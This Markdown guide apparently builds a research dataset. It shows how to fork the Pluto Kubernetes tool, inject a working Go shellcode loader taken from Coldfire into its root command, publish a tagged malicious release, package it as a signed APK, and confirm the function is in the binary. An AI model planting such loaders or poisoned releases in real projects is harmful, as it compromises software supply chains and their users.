 ## Injecting Malware into Pluto

1. **Fork the Target Project**  
   Start by forking the project: https://github.com/FairwindsOps/pluto
     - Deselect "Copy the master branch only" - we want all branches to do historical edits.

2. **Clone the Forked Project**  
   Clone the forked repository to your local machine:
   ```bash
   git clone https://github.com//pluto
   cd pluto
   ```

3. **Checkout the Target Version**  
   We'll inject malware into v5.19.4.
   
   This will give us v5.19.2 (benign), v5.19.3 (benign), v5.19.4 (malicious), v5.20.0(benign) for a historical dataset for this project. 
   ```bash
   git checkout v5.19.4
   ```

4. **Create a New Branch**  
   Create a new branch based on the checked-out version to inject the malware code:
   ```bash
   git checkout -b v5.19.4-malware
   ```

5. **Create Malware Code and Inject it**  
   
   Using [runShellcode](https://github.com/redcode-labs/Coldfire/blob/master/coldfire_linux.go#L27) from r[edcode-labs/Coldfire](https://github.com/redcode-labs/Coldfire/tree/master).
    ```go
    func runShellcode(shellcode []byte, bg bool) {
        sc_addr := uintptr(unsafe.Pointer(&shellcode[0]))
        page := (*(*[0xFFFFFF]byte)(unsafe.Pointer(sc_addr & ^uintptr(syscall.Getpagesize()-1))))[:syscall.Getpagesize()]
        syscall.Mprotect(page, syscall.PROT_READ|syscall.PROT_EXEC)
        spointer := unsafe.Pointer(&shellcode)
        sc_ptr := *(*func())(unsafe.Pointer(&spointer))
        if bg {
            go sc_ptr()
        } else {
            sc_ptr()
        }
    }
    ```

6. **Where to inject the malware in Pluto**  
    Directly into the root cmd function of Pluto.

    The injection can be seen here in the fork: [/pluto/commit/7184a3](https://github.com//pluto/commit/7184a358ce2049b251f6cd3736de1b0153777bac)

7. **Push Updates to the Branch**  
   After injecting the sample malware, push the changes back to the remote repository:
   ```bash
   git add .
   git commit -m "Injecting Malware into v5.19.4. runShellcode from Coldfire. Research purposes only."
   git push origin v5.19.4-malware
   ```

8. **Create a New Release and New Tag**  
   Create a release in the repository for version `v5.19.4-malware`. Also, make sure to add a new tag `v5.19.4-malware`.

   You'll get this message "Branch with this tag name already exists" but you can ignore it. 

   The final release: https://github.com//pluto/releases/tag/v5.19.4-malware


### Generate APKs

Use Chainguard's Melange to generate a signing key. Make sure you generate in the same folder as the updated melange file:
```bash
docker run --rm -v "${PWD}":/work cgr.dev/chainguard/melange keygen
```

v5.19.4 (malware)
```bash
docker run --privileged --rm -v "${PWD}":/work cgr.dev/chainguard/melange build /work/pluto_5.19.4-malware.yaml --arch x86_64 --signing-key melange.rsa
```



## Check if the malware is in the binary

### 1. **Extract the APK File**
   - First, extract the APK file if you haven't already done so:

   ```bash
   sudo tar -xvf pluto-5.19.4-r0.apk
   ```

### 2. **Locate the Binary**
   - Locate the binary within the extracted contents (usually in `usr/bin`, `usr/sbin`, or similar directories).

### 3. **Use `readelf` to List Symbols**
   - Use `readelf` with the `--symbols` option to list all the symbols in the binary, including functions.

   ```bash
   readelf -W --symbols pluto | grep shell
   ```

   This command will display a list of all symbols defined in the binary.

### 4. **Search for Your Function**
   - You can search for your specific function name in the output. Use `grep` to filter the output and find your function directly:

   ```bash
   readelf -W --symbols <your_binary> | grep <function_name>
   ```

   Replace `<function_name>` with the name of the function you’re looking for.

### 5. **Interpreting the Output**
   - The output of `readelf --symbols` provides several columns, including:

     - **Num:** The index number of the symbol.
     - **Value:** The address of the symbol in memory.
     - **Size:** The size of the symbol.
     - **Type:** The type of the symbol (e.g., `FUNC` for functions).
     - **Bind:** The binding attribute (e.g., `GLOBAL` or `LOCAL`).
     - **Vis:** The visibility of the symbol.
     - **Ndx:** The section index where the symbol is defined.
     - **Name:** The name of the symbol.

   For example:

   ```
   46: 0000000000001020    42 FUNC    GLOBAL DEFAULT   10 <function_name>
   ```

   - **FUNC** in the Type column indicates that the symbol is a function.
   - **GLOBAL** in the Bind column indicates that it’s a globally visible function.

### 6. **Confirming the Function's Presence**
   - If your function appears in the output with the `FUNC` type, it means the function is included in the binary and has not been removed by the Go compiler.


```shell
$ objdump -d pluto | grep runShellcode
00000000016577e0 <github.com/fairwindsops/pluto/v5/cmd.runShellcode>:
 16577e4:       0f 86 0f 01 00 00       jbe    16578f9 <github.com/fairwindsops/pluto/v5/cmd.runShellcode+0x119>
 1657823:       74 19                   je     165783e <github.com/fairwindsops/pluto/v5/cmd.runShellcode+0x5e>
 1657856:       0f 84 7f 00 00 00       je     16578db <github.com/fairwindsops/pluto/v5/cmd.runShellcode+0xfb>
 1657861:       0f 86 87 00 00 00       jbe    16578ee <github.com/fairwindsops/pluto/v5/cmd.runShellcode+0x10e>
 1657894:       77 4b                   ja     16578e1 <github.com/fairwindsops/pluto/v5/cmd.runShellcode+0x101>
 16578c4:       74 0a                   je     16578d0 <github.com/fairwindsops/pluto/v5/cmd.runShellcode+0xf0>
 16578ce:       eb 05                   jmp    16578d5 <github.com/fairwindsops/pluto/v5/cmd.runShellcode+0xf5>
 1657930:       e9 ab fe ff ff          jmp    16577e0 <github.com/fairwindsops/pluto/v5/cmd.runShellcode>
 1657973:       e8 68 fe ff ff          call   16577e0 <github.com/fairwindsops/pluto/v5/cmd.runShellcode>

$ nm pluto | grep runShellcode
00000000016577e0 T github.com/fairwindsops/pluto/v5/cmd.runShellcode

$ readelf --symbols pluto | grep runShellcode
```